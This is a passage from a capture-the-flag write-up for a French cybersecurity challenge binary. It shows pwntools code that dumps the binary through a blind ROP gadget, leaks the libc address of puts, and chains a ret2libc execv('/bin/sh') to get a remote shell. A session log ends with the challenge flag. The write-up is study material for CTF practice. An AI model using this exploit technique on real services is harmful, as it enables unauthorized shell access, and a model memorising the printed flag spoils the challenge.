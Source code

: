 ```python
	f = open("out.hex", "wb")
	l = 0x2000
	while l > 0:
		l, res = read(0x402000 - l, l, brop_gadget, read_gadget)
		f.write(res)
```

Now we  juste need to get the puts GOT address, then we can load our binary, and, thanks to this [site](https://libc.blukat.me/), the lib corresponding with pwntools.
The last step is to use the ROP class to chain our exploit.

```python
def  get_shell(puts_got_addr, brop_gadget, read_gadget, main_addr):
	p = remote("challenges2.france-cybersecurity-challenge.fr", 4008)
	p.send(b'a' * 40 + p64(brop_gadget + 9) + p64(puts_got_addr) + p64(read_gadget) + p64(main_addr))
  
	p.readuntil(b">>> ")
	t = p.read(56)[50:] + b'\x00' * 2
	print(t)
	resp = u64(t)
  
	print(f"libc_puts_addr {hex(resp)}")
  
	libc_puts_addr = resp
  
	libc = ELF("libc6_2.19-18+deb8u10_amd64.so")
  
	libc.address = libc_puts_addr - libc.symbols["puts"]
  
	print(f"libc_base {hex(libc.address)}")
  
	rop = ROP(libc)
	rop.execv(next(libc.search(b"/bin/sh\x00")), 0)
  
	p.send(b'a' * 40 + rop.chain())
  
	p.interactive()
	pass


re_do_gadget = 0x400656 # will call read again in order to send our final payload
 
get_shell(0x600FC8, brop_gadget, read_gadget, re_do_gadget)
```

and FLAG!!!!

```bash
$ python3 solv.py
b'\x90\xd9tU\x12\x7f\x00\x00'
libc_puts_addr 0x7f125574d990
libc_base 0x7f12556e2000

What is your name ?
>>> $ ls
blindDate
flag
$ cat flag
FCSC{3bf7861167a72f521dd70f704d471bf2be7586b635b40d3e5d50b989dc010f28}
```
